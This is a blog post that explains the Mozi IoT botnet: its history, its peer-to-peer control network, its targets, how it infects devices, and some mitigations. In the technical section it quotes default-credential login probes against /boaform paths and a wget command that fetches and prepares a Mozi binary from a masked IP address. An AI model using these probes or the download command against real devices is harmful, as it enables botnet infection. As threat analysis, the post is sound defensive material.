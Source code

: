 ```yaml
---
title: What is mozi malware and how it works?
date: 2024-06-08 15:39:12
tags: ["malware", "mozi", "technical"]
---
```


# What is Mozi Malware

The common defination is that Mozi is a IoT botnet, that makes use of P2P for communiacating and reuses source code of other well-known malware families, including
Gafgyt, Mirai and IoT Reaper. The possible victims are that not configured IoT devices based on security perspective such as network gateways, digital video records (DVRs) and IP cameras. It works by exploiting `weak telnet passwords` and unpatched IoT `vulnerabilites`. After gaining access to the victim device, it tries to get Mozi malware from infected spreaders using `Wget` command. We'll look at techinal details later. For now lets look at the history and capabilities of that shit Malware.

## History of Mozi

First discovered **in late 2019**, Mozi has evolved significantly over time, demonstrating sophisticated capabilities and resilience. Mozi was initially identified by researchers from Netlab 360 in late 2019. It stood out due to its use of a Distributed Hash Table (DHT) for command-and-control (C2) communication, a technique borrowed from peer-to-peer (P2P) networks like BitTorrent. This approach allowed Mozi to maintain a decentralized infrastructure, making it difficult to disrupt. If we look at the purpose of this malware, we can simply list like this;

- Conduct DDoS attacks
- Data exfiltration
- Command or payload execution
- MITM attacks via HTTP Hijacking and DNS spoofing
- Stealing data

As a nature of this malware, it aims to deliver itself to IoT devices that covers also routers and edge routers. When a router get infected, you can make any kind of network attacks. Because of that reason, it is very dangereous. Possible victim lists are;

- Consumer IoT: Home-based devices, such as security cameras, lighting control, appliances, etc.
- Commercial IoT: Devices designed for use in various industries. For instance, healthcare has internet-connected pacemakers and monitors. The transportation and construction industries use devices associated with vehicle trackers, telematics, logistic and supply chain systems and building information modeling.
- Enterprise IoT: Devices designed for use in offices, such as projectors, routers, security systems and digital advertising.
- The Industrial IoT: Industrial control systems, production line automation systems, logic controllers and aircraft systems.
- Infrastructure IoT: Smart city management systems, traffic control devices, utility monitoring devices, etc.
- Internet of Military Things: Wearable combat biometrics devices, robots and surveillance equipment.
- OT/ICS infrastructure.

Here is the killchain of `Mozi malware`

{% asset_img Mozi-attack-flow.png %}

## How Mozi Malware Works? (Technical Details)

What if we download mozi malware from urlhaus or threatfox, you can see the type of this malwares mostly `ELF 32-bit MSB executable, MIPS, MIPS-I version 1` or `ARM` version of this. They gets downloaded from random node who already infected in botnet network. One infected Mozi bot (maybe router or camera) scans the network to find possible victims by sending HTTP requests to comman urls that used from possible IoT devices. Maybe it searchs for vulnerabilities that gives power to comprimise the device. Patterns for HTTP request that made from Mozi bot are that;

- /boaform/admin/formLogin?username=user&psd=user
- /boaform/admin/formLogin?username=admin&psd=admin
- /boaform/admin/formLogin?username=adminisp&psd=adminisp
- /boaform/admin/formLogin?username=ec8&psd=ec8

If it can access possible victim using this credantials, it trys to download Mozi malware itself using `wget` command that is a powerful utility for non-interactive downloading of files from the web. The comman pattern to test victim is vulnerable for CMDi attacks for delivering malware is that `wget http://xxx.xx.xxx.xxx/bins/mozi.a -o /var/tmp/mozi.a; chmod 777 /var/tmp/mozi.a; rm -rf /var/tmp/mozi.a`

After that malware gets downloaded and executed. Once executed, the `binary forks` many versions of itself renamed as ‘ssh’ or ‘dropbear’. The forked processes are responsible for setting up the DHT communications and closing ports to prevent infection by other malware. The forked processes can also set up HTTP on a randomly chosen port to host the Mozi binary.

{% asset_img mozi-architecture.png %}

## Technical Mitigation Strategies

To effectively protect against `Mozi` malware, you can follow below advices. Here are detailed technical advices:

### Prevention
- Strengthen Authentication:
  - Enforce strong, unique passwords for all IoT devices. Avoid using default credentials.
  - Implement multi-factor authentication (MFA) where possible.
- Firmware and Software Updates:
  - Regularly update firmware and software on all IoT devices to patch known vulnerabilities.
  - Enable automatic updates if the option is available.
- Network Segmentation:
  - Isolate IoT devices from critical network segments to limit the impact of a potential compromise.
  - Use VLANs (Virtual Local Area Networks) and firewalls to control traffic between network segments.
- Disable Unnecessary Services:
  - Turn off unused services and protocols on IoT devices to reduce attack surfaces.


See you in next blog.
